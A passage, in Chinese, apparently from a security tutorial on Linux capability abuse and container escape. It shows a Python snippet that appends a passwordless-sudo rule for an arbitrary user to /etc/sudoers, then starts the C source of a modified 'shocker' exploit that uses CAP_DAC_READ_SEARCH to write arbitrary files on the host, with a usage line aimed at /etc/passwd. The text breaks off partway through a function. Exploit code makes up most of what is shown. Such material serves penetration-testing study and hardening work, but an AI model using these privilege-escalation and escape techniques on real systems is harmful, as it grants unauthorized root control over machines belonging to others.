 
当python具有该能力，同样可以修改一些敏感文件提权。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/8812c29f-79e7-4511-9984-b30100e11a06.png?raw=true)

  

```
file=open("/etc/sudoers","a")  
file.write("username ALL=(ALL) NOPASSWD:ALL")  
file.close()
```

**当环境具有能力：**  想要逃逸还需要具有能力`CAP_DAC_READ_SEARCH`可以读取主机文件，对`shocker.c`进行修改，改为对主机写入任意文件。

```
#include <stdio.h>  
#include <sys/types.h>  
#include <sys/stat.h>  
#include <fcntl.h>  
#include <errno.h>  
#include <stdlib.h>  
#include <string.h>  
#include <unistd.h>  
#include <dirent.h>  
#include <stdint.h>

// gcc shocker_write.c -o shocker_write  
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {  
  unsigned int handle_bytes;  
  int handle_type;  
  unsigned char f_handle[8];  
};  
void die(const char * msg) {  
  perror(msg);  
  exit(errno);  
}  
void dump_handle(const struct my_file_handle * h) {  
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,  
    h -> handle_type);  
  for (int i = 0; i < h -> handle_bytes; ++i) {  
    fprintf(stderr, "0x%02x", h -> f_handle[i]);  
    if ((i + 1) % 20 == 0)  
      fprintf(stderr, "\n");  
    if (i < h -> handle_bytes - 1)  
      fprintf(stderr, ", ");  
  }  
  fprintf(stderr, "};\n");  
}   
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)  
{  
  int fd;  
  uint32_t ino = 0;  
  struct my_file_handle outh = {  
    .handle_bytes = 8,  
    .handle_type = 1  
  };  
  DIR * dir = NULL;  
  struct dirent * de = NULL;  
  path = strchr(path, '/');  
  // recursion stops if path has been resolved  
  if (!path) {  
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));  
    oh -> handle_type = 1;  
```